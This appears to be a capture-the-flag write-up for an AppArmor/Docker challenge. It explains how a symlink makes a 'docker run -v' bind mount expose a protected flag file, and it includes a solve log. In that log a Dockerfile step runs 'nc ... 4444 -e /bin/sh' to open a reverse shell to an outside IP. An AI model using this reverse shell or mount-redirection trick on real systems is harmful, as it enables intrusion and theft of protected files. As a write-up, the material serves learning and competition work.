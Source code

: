Run `./solve.sh` to solve. When running for first time, you need to:
* update the (referenced) docker image name in `build.sh` and the `<<YOURIP>>` part
* login to gitlab docker registry (`docker login`) and share your project with `dragonsectorclient`

TL;DR: The apparmor denies read/write/etc to `/flag-*` but this is enforced during container run time.
It turns out that when the `docker run -v something:somepath ...` is invoked, the `somepath` follows links and we can make a link from `/flag-XXYY` to `/D` in our image. In the end, the `docker run -v /flag.txt:/flag-XXYY ...` will mount `flag.txt` into `/D` which we can read.

```
dc@jhtc:~/dsctf/x/task/ds-apparmor-task/solution$ ./solve.sh
mkdir: cannot create directory ‘rootfs’: File exists
Sending build context to Docker daemon  33.56MB
Step 1/4 : FROM ubuntu
 ---> d70eaf7277ea
Step 2/4 : RUN apt update && apt install -y netcat-traditional
 ---> Using cache
 ---> 40ac85e97bbe
Step 3/4 : ADD rootfs /
 ---> Using cache
 ---> 17f203a1ee6a
Step 4/4 : CMD nc 51.38.138.162 4444 -e /bin/sh
 ---> Using cache
 ---> 422aece7a145
Successfully built 422aece7a145
Successfully tagged registry.gitlab.com/mytempaccount123/test:latest
The push refers to repository [registry.gitlab.com/mytempaccount123/test]
3c45abc528a8: Layer already exists
be0923227e77: Layer already exists
cc9d18e90faa: Layer already exists
0c2689e3f920: Layer already exists
47dde53750b4: Layer already exists
latest: digest: sha256:fda92fc789dbfde33799502d18e30e8f3b2d184d9942ea1e6c5ff75f7003ffd5 size: 1365
[+] Opening connection to apparmor2.hackable.software on port 1337: Done
Executing b'hashcash -mb26 udqynihh'
out b'1:26:201121:udqynihh::i6HwB+Gk4OttOKvq:000000005+DgO\n'
b'Image added to the queue\n'
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 156.95.107.34.bc.googleusercontent.com 56178 received!
DrgnS{4e77cd33ffb0c7802b39303f7452fd90}
```
